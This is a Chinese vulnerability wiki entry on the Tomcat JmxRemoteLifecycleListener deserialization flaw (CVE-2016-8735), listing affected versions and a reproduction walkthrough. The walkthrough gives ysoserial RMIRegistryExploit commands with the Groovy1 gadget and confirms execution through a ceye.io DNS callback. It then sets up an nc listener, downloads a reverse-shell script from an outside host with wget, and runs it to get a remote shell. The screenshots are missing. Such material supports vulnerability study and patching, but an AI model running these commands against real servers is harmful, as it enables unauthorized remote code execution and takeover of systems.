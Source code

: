 （CVE-2016-8735）Tomcat 反序列化漏洞
====================================

一、漏洞简介
------------

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

二、漏洞影响
------------

ApacheTomcat 9.0.0.M1 到9.0.0.M11 ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38 ApacheTomcat 7.0.0 到7.0.72 ApacheTomcat
6.0.0 到6.0.47

三、复现过程
------------

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

    ping -n 1 qjkpla.ceye.io

Linux ping 一次命令：

    ping -c 1 qjkpla.ceye.io

利用Ceye回显看是否存在漏洞:

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io"

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId26.png)

DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId27.png)

直接NC监听服务：

    nc -l -vv 12555

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId28.png)

然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py"

执行完此命令继续构造命令，去执行刚在wget的脚本

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口"

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId29.png)

成功反弹：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId30.png)

image

